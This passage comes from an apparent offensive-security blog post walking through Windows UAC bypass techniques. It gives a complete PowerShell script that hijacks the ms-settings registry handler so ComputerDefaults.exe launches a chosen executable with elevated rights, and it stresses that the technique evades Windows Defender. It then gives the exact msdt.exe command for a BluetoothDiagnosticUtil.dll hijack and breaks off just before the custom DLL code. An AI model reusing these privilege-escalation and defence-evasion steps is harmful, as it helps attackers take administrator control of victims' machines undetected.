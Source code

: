 Bring it all together and you get the following:

![image](https://github.com/user-attachments/assets/c2fa9794-a33a-4b6b-a9c0-b6a7f0b5c7ca)

![image](https://github.com/user-attachments/assets/872b4dcf-94f2-439c-a30c-8df6c75b2101)

Final code:

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "../../myfolder/barney.exe" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

And there you have it.  An age old UAC Bypass technique that still works, still bypasses UAC and STILL EVADES DEFENDER!  The irony is it's easier than all the other methods I posted last year.
Think smarter not harder I guess.  Okay, I feel better about this blog post now.  I couldn't sit idly by while folks found this page and were likely immediately disappointed because none of the techniques I shared were still relevent.  Now there's at least one 😙  Until next time!

**Video Proof of Concept:**

<iframe width="560" height="315" src="https://www.youtube.com/embed/s4QYZsq32mo?si=IB74bAqzh7zNgIKC" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

***UAC Bypass #3 - Using Micrososft's Troubleshooting Tool to elevate to Admin! (Detection Status: Undetected via Windows Defender)***
-

Credit first and foremost goes to Emeric Nasi, who discovered this quite some time ago.  All I did was repurpose it for my own needs and present it in a way that is understandable and accessible to you the reader 😸  His original article on this particular UAC bypass technique can be found here: [https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass](https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass)

The affected executable is `c:\windows\syswow64\msdt.exe` and we will be seizing the opportunity to exploit a DLL that is vulnerable to DLL hijacking. The reason for the `syswow64` directory is because the vulnerable DLL is the x86/32 bit version, and it will ultimately be loaded by `C:\WINDOWS\SysWOW64\sdiagnhost.exe` which follows the initial loading of `msdt.exe`.  The DLL in question is: `BluetoothDiagnosticUtil.dll`

In order to pull this off, all we need to do is run the following command: 

`c:\windows\syswow64\msdt.exe -path C:\WINDOWS\diagnostics\index\BluetoothDiagnostic.xml -skip yes`

I'm not going to go into detail as to why it works.  I'd recommend reading Emeric's article to understand how he worked it out.  I can say that like most UAC bypass exploits, the msdt.exe is auto-elevated.  The auto-elevation portion depends on the .xml file though.

We also need our own custom .dll to execute our cmd.exe for demo purposes.  I used the following code for mine (Be sure to set your project to compile this as x86):
